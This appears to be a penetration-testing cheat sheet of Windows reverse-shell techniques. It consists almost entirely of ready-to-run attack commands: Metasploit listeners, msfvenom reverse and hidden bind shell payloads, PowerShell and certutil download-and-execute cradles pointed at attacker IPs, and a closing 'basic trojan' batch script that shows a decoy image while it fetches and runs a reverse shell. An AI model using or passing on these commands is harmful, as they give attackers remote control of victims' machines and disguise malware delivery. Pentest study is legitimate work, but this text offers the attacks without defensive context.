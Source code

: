 
common metasploit listener:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT <PORT>; set ExitOnSession false; exploit -j"
```



using powercat:
```bash
attacker machine:

where powercat installed:
python3 -m http.server 9090

start netcat listener:
nc -nvlp 1234


target machine:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.120:9090/powercat.ps1');powercat -c 192.168.1.120 -p 1234 -e cmd"
```


using batch file:
```bash
attacker machine:

msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
python3 -m http.server 9090

msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.104 lport=4444 –f exe > shell.exe


nc -nvlp 4444

target systm:
Invoke-WebRequest -Uri "http://192.168.1.120:9090/shell.bat" -OutFile "$env:TEMP\shell.bat"; Start-Process "$env:TEMP\shell.bat" -WindowStyle Hidden

```

using certutil.exe :
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```


Msiexec.exe:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```



Hidden bind shell:
```bash
msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=1010 -f exe > /root/Desktop/hidden.exe
```



get tty windows shell:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/shell.ps1')"
```


having cmd shell upgrade tty shell:
```bash
powershell.exe -NoLogo -NoExit -Command "$Host.UI.RawUI.WindowTitle = 'Upgraded Shell';"
```

Hiding Shell with Prepend Migrate using Msfvenom:

```bash
#this shell migrate between processes.
msfvenom –p windows/meterpreter/reverse_tcp lhost=192.168.1.104 lport=5555 prependmigrate=true prepenmigrateprocess=explorer.exe –f exe > /root/Desktop/raj.exe

```


Powershell:
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.63.128 lport=3434 > reverse.bat 
```


Web_Delivery:
```bash
use exploit/multi/script/web delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set lhost <IP>
set lport <port>
exploit
```


https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/


Basic trojan:
```bash
@echo off

set "url1=https://prod-ripcut-delivery.disney-plus.net/v1/variant/disney/9B368B465A4DC909CDB6E799ACB64899B54E731B6D894FA5B080D75DB2F30533/scale?aspectRatio=1.78^&format=jpeg"
set "url2=http://192.168.63.128:8081/reverse.bat"

powershell -NoProfile -Command ^
"$urls = @('%url1%', '%url2%'); ^
foreach ($url in $urls) { ^
  $fn = Join-Path $env:TEMP ([System.IO.Path]::GetFileName($url).Split('?')[0]); ^
  try { Invoke-WebRequest -Uri $url -OutFile $fn -UseBasicParsing } catch { Write-Host 'Download failed for' $url; continue }; ^
  if (Test-Path $fn) { ^
    if ($fn -match '\.jpg$') { Start-Process mspaint.exe $fn } else { Start-Process $fn } ^
  } else { Write-Host 'File not found after download:' $fn } ^
}"
```

